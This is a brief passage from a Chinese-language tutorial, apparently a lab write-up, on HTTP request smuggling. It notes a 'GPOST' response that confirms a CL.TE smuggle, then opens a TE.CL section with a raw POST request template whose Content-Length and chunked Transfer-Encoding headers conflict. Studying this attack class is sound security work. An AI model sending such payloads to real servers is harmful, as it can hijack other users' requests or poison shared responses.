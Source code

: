 ![](/images/http-request-smuggling/image-04.png)

第二次送，因為前一次 request 走私了一個 request  
所以 response 會回應到此次 request 上  
就得到 Unreconize GPOST Method 了  
![](/images/http-request-smuggling/image-05.png)

## TE.CL

基本請求的概念如下  
```
POST / HTTP/1.1
Host: xxxxxxxx
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0


---- 不包含此行
```
